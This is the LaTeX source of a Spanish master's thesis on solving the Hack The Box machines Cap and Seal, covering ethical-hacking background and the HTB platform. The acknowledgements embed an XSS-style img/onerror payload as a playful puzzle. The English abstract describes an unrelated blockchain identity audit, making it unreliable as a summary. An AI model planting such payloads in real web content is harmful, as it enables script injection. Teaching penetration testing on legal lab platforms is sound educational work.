\documentclass[a4paper, 12pt]{article} % Fuente 12pt
\usepackage[T1]{fontenc}
\usepackage{hyperref}
\usepackage[left=3cm, right=3cm, top=3.5cm, bottom=3.5cm]{geometry} % Márgenes recomendados
\usepackage{times} % Fuente Times New Romans
\usepackage[spanish, english]{babel} 
\usepackage[style=ieee, backend=bibtex,citestyle=numeric-comp]{biblatex} % Bibliografía en formato IEEE
\usepackage{sectsty}
\usepackage{cover/cover}
\usepackage{graphicx}
\usepackage{subfig}
\graphicspath{ {images/} } % Directorio imágenes
\usepackage{listings} % Formateo código
\lstset{
  basicstyle=\ttfamily,
  columns=fullflexible,
  frame=single,
  breaklines=true,
  postbreak=\mbox{\textcolor{black}{$\hookrightarrow$}\space},
}
\usepackage{scrextend}
\usepackage{longtable}
\usepackage{pgfplots} % Graficas de barras
\usepackage{pgf-pie} % Graficas de tartas
\usepackage{multirow} % multiples filas en las tablas
\usepackage[utf8]{inputenc}
% Lista de acronimos
\usepackage[acronym]{glossaries}
% List of acronyms
\newacronym{CTF}{CTF}{Capture The Flag}
\newacronym{htb}{HTB}{Hack The Box}
\newacronym{ftp}{FTP}{File Transfer Protocol}
\newacronym{ssh}{SSH}{Secure Shell}
\newacronym{tcp}{TCP}{Transmission Control Protocol}
\newacronym{http}{HTTP}{Hypertext Transfer Protocol}
\newacronym{url}{URL}{Uniform Resource Locator}
\newacronym{ip}{IP}{Internet Protocol}
\newacronym{ids}{IDS}{Intrusion Detection System}
\newacronym{dns}{DNS}{Domain Name System}
\newacronym{uri}{URI}{Uniform Resource Identifier}
\makeglossaries
\sectionfont{\MakeUppercase} % Secciones en mayúsculas
\bibliography{sections/Bibliography.bib}

\Director{Luis Alfonso Rodríguez De Trio y Pérez}
\Lugar{Madrid} 
\Master{Máster en Seguridad Informática y Hacking Ético} 
\Trabajo{TRABAJO FIN DE MÁSTER} 

\author{Víctor Nieves Sánchez}
\date{Octubre de 2021}
\title{Resolución y explicación de \textit{Cap} y \textit{Seal} (\acrshort{HTB})}

\begin{document}
\maketitle
\null
\newpage
\begin{otherlanguage}{spanish}

    \pagenumbering{roman} % Numeración romana hasta la primera sección

    \begin{otherlanguage}{spanish}
        \renewcommand{\spanishabstractname}{Agradecimientos}
        \begin{abstract}
            % Si lees esto es que eres o muy listo, o muy vago como para intentarlo.
% La solución es: 
%   1) Metadata
%   2) Comentario
%   3) Base64
%   4) JWT Decoder
%   5) Binary Decoder
%   6) Agradecimientos
%
%   No todo va a ser CTFs y hacer TFGs/TFMs ...

\begin{lstlisting}[language=html]
    <img src="./images/?.jpeg" alt="Let's play a game!" onerror=alert('WTF')>
\end{lstlisting}
        \end{abstract}
    \end{otherlanguage}

    \newpage
    \tableofcontents

    \newpage
    \listoffigures

    %\newpage
    %\renewcommand{\listtablename}{Lista de Tablas}
    %\listoftables

    %\newpage
    %\lstlistoflistings

    \newpage
    \printglossary[type=\acronymtype]

    \newpage
    \begin{abstract}
        \normalsize
        \# TODO

\textbf{Keywords:} Hacking, Ciberseguridad, \acrlong{HTB}, \acrshort{CTF}, \acrlong{ceh}\ldots

    \end{abstract}

    \newpage
    \renewcommand{\spanishabstractname}{Abstract}
    \begin{abstract}
        \normalsize
        In the technology industry, cybersecurity is very important.  Companies are increasingly focused on ensuring that their various applications, projects and services are secure.  They are even starting to adapt their solutions to technologies that guarantee greater security and robustness, such as Blockchian technology.\\

On the other hand, companies must protect the information security, guaranteeing the confidentiality, availability and integrity of the information. This problem is often linked to data protection regulations, such as the \acrshort{gdpr}, which is why the idea of a "\acrlong{ssi}" is becoming increasingly popular.  \acrfull{ssi} is the concept that individuals or organizations have the sole and exclusive ownership of their digital identities, and are the ones who control how their personal data is shared and used.\\

Alastria, a consortium promoting the digital economy through the development of decentralized registration technologies such as Blockchain, has defined a digital identity model called \textit{Alastria ID}. The \textit{Alastria ID} project is deployed as one of the basic applications of the blockchain infrastructure promoted by the consortium within its platform.  This technological proposal of digital identity in blockchain aims to provide an infrastructure and development framework to carry out \acrfull{ssi} projects, with full legal validity in the euro area.\\

The fact that a company uses Blockchain technology does not mean that it is free of security problems and vulnerabilities.  As these are new technologies, there are still not many standards, there are no robust implementations, and a small failure can cause a security gap, and the impact this can have on a \acrlong{ssi} model can be critical to the ecosystem.\\

The objective of this work is multiple. The concept of \acrfull{ssi} has been studied, as well as the implementation of Alastria called \textit{Alastria ID} and other implementations and solutions that exist today. On the other hand, a study of the \textit{Alastria ID} implementation has been carried out from the point of view of security, auditing the Smart Contracts designed in the \acrshort{mvp}1 and the library that facilitates its use. Finally, a \acrlong{poc} has been created for one of the vulnerabilities found during the analysis phase and its criticality and impact has been evaluated.\\

\textbf{Keywords:} Blockchain, Alastria, \acrlong{ssi}, Ethereum, Quorum, Solidity, Smart Contracts, Hacking, Cybersecurity, Information Security, Audit\ldots


    \end{abstract}
    \newpage
    \pagenumbering{arabic} % Numeración árabe en la primera sección

    \section{Introducción}
    Esta sección presenta el contexto del trabajo, la motivación del mismo, los objetivos específicos que se pretenden alcanzar y una explicación de la estructura del resto del documento.
    \subsection{Contexto}
    \subsubsection{Ciberseguridad}
La seguridad de la información o \textit{ciberseguridad} se refiere a la protección o salvaguarda de la información y de los sistemas de información que utilizan, almacenan y transmiten información. La información es un activo crítico que las organizaciones deben asegurar. Si la información sensible cae en manos equivocadas, la organización respectiva puede sufrir enormes pérdidas en términos económicos, de reputación, de clientes, o de otras maneras.\\

El elementos principales de la seguridad de la información son:
\begin{itemize}
    \item \textbf{Confidencialidad}. La confidencialidad es la garantía de que la información es accesible sólo para los autorizados. Las violaciones de la confidencialidad pueden producirse debido a una manipulación inadecuada de los datos o a un intento de piratería informática. Los controles de confidencialidad incluyen la clasificación de los datos, el cifrado de los mismos y la eliminación adecuada de los equipos.
    \item \textbf{Integridad}. La integridad es la fiabilidad de los datos o recursos en la prevención de cambios indebidos y no autorizados; la garantía de que la información es suficientemente precisa para su propósito. Las medidas para mantener la integridad de los datos pueden incluir una suma de comprobación o \textit{checksum} (un número producido por una función matemática para verificar que un determinado bloque de datos no ha sido modificado) y el control de acceso (que garantiza que sólo las personas autorizadas pueden actualizar, añadir o eliminar datos).
    \item \textbf{Disponibilidad}. La disponibilidad es la garantía de que los sistemas responsables de entregar, almacenar y procesar la información son accesibles cuando los usuarios autorizados lo requieren. Las medidas para mantener la disponibilidad de los datos pueden incluir matrices de discos para sistemas redundantes y máquinas agrupadas, software antivirus para combatir el malware y sistemas de prevención de la denegación de servicio distribuida (\acrshort{ddos}).
    \item \textbf{Autenticidad}. La autenticidad se refiere a la característica de la comunicación, los documentos o cualquier dato que garantice la calidad o que no se ha corrompido. La función principal de la autenticación es confirmar que un usuario es auténtico. Controles como la biometría, las tarjetas inteligentes y los certificados digitales garantizan la autenticidad de los datos, las transacciones, las comunicaciones y los documentos.
    \item \textbf{No repudio}. El no repudio es una forma de garantizar que el remitente de un mensaje no pueda negar posteriormente haber enviado el mensaje y que el destinatario no pueda negar haber recibido el mensaje. Los particulares y las organizaciones utilizan las firmas digitales para garantizar el no repudio
\end{itemize}

La ciberseguridad no solo se centra en la seguridad de la información. Algunas categorías comunes agrupadas en la ciberseguridad son:
\begin{itemize}
    \item La seguridad de red.
    \item La seguridad de las aplicaciones.
    \item La seguridad operativa.
    \item La recuperación ante desastres y la continuidad del negocio.
\end{itemize}

\subsubsection{Hacking}

El \textit{hacking} es el conjunto de técnicas a través de las cuales se accede a un sistema informático vulnerando las medidas de seguridad establecidas originariamente. Por lo general, cuando se habla de \textit{hacking} se suele hacer alusión a un acceso ilícito; pero el hacking como tal, no es más que un conjunto de técnicas utilizadas para introducirse en un sistema informático vulnerando las medidas de seguridad, con independencia de la finalidad con la cual se realice, puede ser lícito y solicitado.\\

En el capitulo \textit{Hacking Ético} se hablará más en detalle sobre lo que es el \textit{hacking ético}, los tipos de \textit{hacker}, así como algunos de los términos más ligados a la palabra ``\textit{hacking}`` y las cualidades que tiene un \textit{hacker}.

    \subsection{Motivación}
    Constantemente son más comunes los ataques a las empresas y las organizaciones; cada vez son más comunes los ataques de \textit{ransomware}, los robos de información sensible o el \textit{phising}. En una sociedad cada vez más tecnológica como la actual, cada vez es más común que la tecnología esté a nuestro alrededor: móviles, ordenadores, elementos \acrshort{iot}, incluso hay tostadores inteligentes conectados en nuestras casas. Cada vez más y más dispositivos que trabajan con nuestros datos, conectados en nuestras redes, y esto, hace que el mundo sea un gran ``campo de juego`` para los \textit{hackers} malvados.\\

Es el objetivo de los \textit{hackers} buenos (\textit{white hats}) y de los expertos y profesionales de la ciberseguridad el proteger este mundo tecnológico. Desde el aplicativo privado del banco, hasta la aplicación más popular del móvil. Todo elemento que vive en la red, puede ser atacado de mil maneras: \textit{phising}, \textit{man-in-the-middle}, \textit{\acrshort{ddos}}, \ldots por eso es fundamental que los defensores tengan la capacidad de pensar como atacantes, para poder crear las defensas pertinentes.\\

Es aquí donde el \textit{hacking ético} entra en acción. Un \textit{hacker ético} es un profesional con las habilidades de penetrar en redes, explotar vulnerabilidades y acceder a las máquinas a placer. Los \textit{hackers} usan diversas herramientas y conocimientos, además de estar siempre al día de las últimas vulnerabilidades y \acrshort{cve}s.\\

Personalmente, llevo un tiempo indagando en el mundo de la ciberseguridad y el hacking, por eso he elegido este tema para mi Trabajo de Fin De Máster. El objetivo de este documento es mostrar mi manera de pensar y mi toma de decisiones a la hora de resolver dos máquinas en \acrlong{HTB}, explicando las herramientas usadas y las conclusiones obtenidas. Este documento marcará mis inicios en el mundo de la ciberseguridad. Mundo en el que espero trabajar profesionalmente dentro de poco.

    \subsection{Objetivos}
    El presente trabajo tiene dos objetivos principales: (1) resumir y explicar qué es el \textit{hacking ético} (2) realizar dos máquinas en \acrfull{HTB}. Para lograr dichos objetivos, se han dividido en los siguientes objetivos específicos:
\begin{enumerate}
    \item el estudio y posterior síntesis del concepto de \textit{ciberseguridad}, \textit{hacking} y \textit{hacking ético}.
    \item la selección de las máquinas a atacar.
    \item atacar las máquinas seleccionadas y conseguir obtener el \textit{root} (máximo privilegio).
    \item enumerar y explicar las herramientas utilizadas en el proceso.
    \item realizar un reporte detallado de los pasos realizados para completar la máquina y la toma de decisiones.
\end{enumerate}


    \subsection{Estructura del documento}
    Este documento se ha dividido en los siguientes capítulos para poder realizar los objetivos anteriormente citados.\\

El segundo capitulo \textit{Estado del Arte}, contiene una introducción al término de \textit{hacking ético}, enumerando los distintos tipos de \textit{hacker} que hay y las habilidades y cualidades que presenta un \textit{hacker}. Finalmente se hablará de la plataforma \acrlong{HTB}, la cual ha sido la elegida para realizar este trabajo. Se hablará de sus características y de las distintas modalidades que contiene.\\

El siguiente capitulo, \textit{Herramientas} enumera todas las herramientas utilizadas en los capítulos 4 y 5. En cada apartado habrá una pequeña descripción de la herramienta, así como los comandos para su ejecución y figuras que faciliten su comprensión.\\

El capítulo 4, \textit{Máquina 1: Cap}, contiene la primera máquina realizada, llamada \textit{Cap}. En este capitulo se podrán encontrar las fases principales de la metodología hacking que son aplicables a un programa de ``capturar la bandera`` (\acrlong{CTF}). Se podrá encontrar los pasos y las decisiones tomadas en las fases de reconocimiento, enumeración, ganar acceso y escalada de privilegios. Por último se encontrará un resumen de las vulnerabilidades encontradas en la máquina así como algunos comentarios y pensamientos obtenidos tras la realización de la máquina.\\

Tras la primera máquina, se realizará el estudio de la segunda. El capitulo \textit{Máquina 2: Seal} contiene, al igual que el capitulo previo, los pasos realizados para lograr completar la máquina, al igual que un apartado de resumen con el objetivo de resumir la máquina y comentar algunos aspectos relevantes.\\

El penúltimo capítulo, \textit{Conclusiones}, recoge los resultados de todo el trabajo y justifica la satisfacción de los objetivos mencionados en el capitulo anterior.\\

Por último, en el capítulo \textit{Trabajo Futuro} se comentarán las líneas futuras de trabajo, y las intenciones personales tras la realización de este documento.


    \newpage
    \section{Estado del Arte}

    \subsection{Hacking Ético}
    El programa \textit{\acrfull{ceh}} define el hacking ético como:

\begin{quote}
    \textit{la práctica de emplear conocimientos informáticos y de redes para ayudar a las organizaciones a probar la seguridad de su red en busca de posibles lagunas y vulnerabilidades}
\end{quote}

Los hackers éticos informan de todas las vulnerabilidades al propietario del sistema y de la red para que se corrijan, aumentando así la seguridad del sistema de información de una organización. El hacking ético implica el uso de herramientas, trucos y técnicas de hacking típicamente utilizadas por un atacante para verificar la existencia de vulnerabilidades explotables en la seguridad del sistema.\\

Hoy en día, el término \textit{hacking} está estrechamente asociado a actividades ilegales y poco éticas. Se sigue debatiendo si el hacking puede ser ético o no, dado que el acceso no autorizado a cualquier sistema es un delito. Por eso es importante destacar las siguientes definiciones:

\begin{itemize}
    \item El término "\textbf{hacker}" se refiere a una persona que disfruta aprendiendo los detalles de los sistemas informáticos y ampliando sus capacidades.
    \item El verbo "\textbf{hackear}" describe el rápido desarrollo de nuevos programas o la ingeniería inversa del software existente para hacerlo mejor o más eficiente de formas nuevas e innovadoras.
    \item Los términos "\textbf{cracker}" y "\textbf{atacante}" se refieren a las personas que emplean sus habilidades de hacking con fines ofensivos.
    \item El término "\textbf{hacker ético}" se refiere a los profesionales de la seguridad que emplean sus habilidades de hacking con fines defensivos.
\end{itemize}

En la actualidad, el hacking ético es necesario porque permite a las organizaciones contrarrestar los ataques de los hackers malintencionados, anticipando los métodos que utilizan para entrar en los sistemas. El hacking ético ayuda a predecir con antelación las distintas vulnerabilidades posibles y a rectificarlas antes de sufrir ningún tipo de ataque externo.


\subsubsection{Tipos de Hacker}

Aunque solo existe una tipología de hacking que sea ético, es interesante explicar los tipos de hacker que hay.

\begin{itemize}
    \item \textbf{Sombrero negro} o \textbf{Black hat}: son aquellos que tiene los conocimientos necesarios para romper la seguridad de un sistema o programa, o para crear virus y los utiliza con malas intenciones.
    \item \textbf{Sombrero blanco} o \textbf{White hat}: cuentan con los conocimientos necesarios para saltarse la seguridad de un sistema o crear virus, pero los usan para hacer el bien ayudando a mejorar la seguridad de organizaciones y empresas.
    \item \textbf{Sombrero gris} o \textbf{Grey hat}: son aquellos que tienen una ética ambigua. Es decir, tienen los conocimientos de los \textit{blacks hats} y los utilizan para entrar en sistemas pero no explotan las vulnerabilidades con fines maliciosos.
\end{itemize}

También existen otros términos para definir a los hackers, como los \textbf{\textit{script kiddies}}, los \textbf{\textit{hacktivistas}} o los equipos/grupos de hackers (\textbf{\textit{hacker teams}}).

\subsubsection{Habilidades de un Hacker Ético}

Es esencial que un hacker ético adquiera los conocimientos y habilidades necesarios para convertirse en un hacker experto y utilizar estos conocimientos de forma lícita. Algunas de esas habilidades son:

\begin{itemize}
    \item \textbf{Habilidades técnicas}:
          \begin{itemize}
              \item Conocimiento profundo de los principales entornos operativos, como \textit{Windows}, \textit{Linux/Unix} y \textit{Mac OS}.
              \item Conocimiento profundo de los conceptos y tecnologías de redes, y del hardware y software relacionados.
              \item Conocimiento de las áreas de seguridad y temas relacionados.
              \item Alto conocimiento técnico de cómo lanzar ataques sofisticados.
          \end{itemize}
    \item \textbf{Habilidades no técnicas}:
          \begin{itemize}
              \item La capacidad de aprender y adaptar rápidamente las nuevas tecnologías.
              \item Una fuerte ética de trabajo y buenas habilidades de comunicación y resolución de problemas.
              \item Compromiso con las políticas de seguridad de la organización.
              \item Conocimiento de las normas y leyes locales.
          \end{itemize}
\end{itemize}

    \subsection{\acrlong{HTB}}
    \acrfull{HTB}\cite{htb} (figura \ref{fig:htb-logo}) es una plataforma online gratuita que une a cientos de miles de hackers. En el núcleo de \acrshort{HTB} hay una red de máquinas vulnerables listas para ser atacadas y para que se practiquen las habilidades de ciberseguridad, de forma totalmente legal. El objetivo es realizar un \acrshort{CTF}, es decir, conseguir ser root para demostrar que has conseguido el control total sobre la máquina.\\

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.40\textwidth]{images/sections/stateOfTheArt/htb-logo.png}
    \caption{Logo de \textit{\acrshort{HTB}}}
    \label{fig:htb-logo}
\end{figure}

En \acrshort{HTB} hay distintos desafíos, como \textit{machines}, \textit{challenges}, \textit{tracks} y más, cada uno con distintos niveles de dificultad (``\textit{easy}``, ``\textit{medium}``, ``\textit{hard}`` e ``\textit{insane}``), además de un \textit{Starting Point} para personas que se enfrenten por primera vez a este tipo de desafíos. Cada desafío proporciona una serie de puntos que sirven para escalar en el \textit{ranking} global.

\acrshort{HTB} tiene una subscripción de pago que te permite acceder a las máquinas retiradas, además de proporcionarte más características, como laboratorios VIP o acceso a \textit{write-ups} oficiales.\\

A continuación se mencionan los principales laboratorios en \acrshort{HTB}.

\subsubsection{Challenges}
Los desafíos (\textit{challenges}) están categorizados por su temática, como se muestra en la figura \ref{fig:htb-challenges}. Cada desafío tiene una dificultad, y se centra en resolver el desafío para encontrar el flag pertinente.

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.7\textwidth]{images/sections/stateOfTheArt/htb-challenges.png}
    \caption{Tipos de \textit{challenges} en \textit{\acrshort{HTB}}}
    \label{fig:htb-challenges}
\end{figure}

\subsubsection{Machines}
Las máquinas (\textit{machines}) intentan simular en mayor o menor medida a un servidor real, con páginas web, servicios de administración como \acrshort{ssh} o \textit{telnet}, descarga y subida de ficheros a través de \acrshort{ftp}, servidores de dominio Window, etc. Para poder conseguir ser root se tendrán que usar técnicas de escalada de privilegios, esteganografía, fuerza bruta, exploits, análisis de código y cualquier conocimiento del mundo de la ciberseguridad. En la figura \ref{fig:htb-machines} se pueden ver las máquinas disponibles a fecha de la realización de este trabajo. Las máquinas van desapareciendo y van naciendo máquinas nuevas con el paso del tiempo.\\

\begin{figure}[h]
    \centering
    
\includegraphics[width=1.0\textwidth]{images/sections/stateOfTheArt/htb-machines.png}
    \caption{\textit{Machines} en \textit{\acrshort{HTB}}}
    \label{fig:htb-machines}
\end{figure}

\subsubsection{Tracks}
Un \textit{Track} es un conjunto de máquinas y desafíos enlazados entre sí, centradas en un objetivo o tecnología concreta, que permite al usuario profundizar sobre ese tema en concreto. En la siguiente figura (figura \ref{fig:htb-tracks}) se puede ver el primer \textit{track} disponible.
\begin{figure}[h]
    \centering
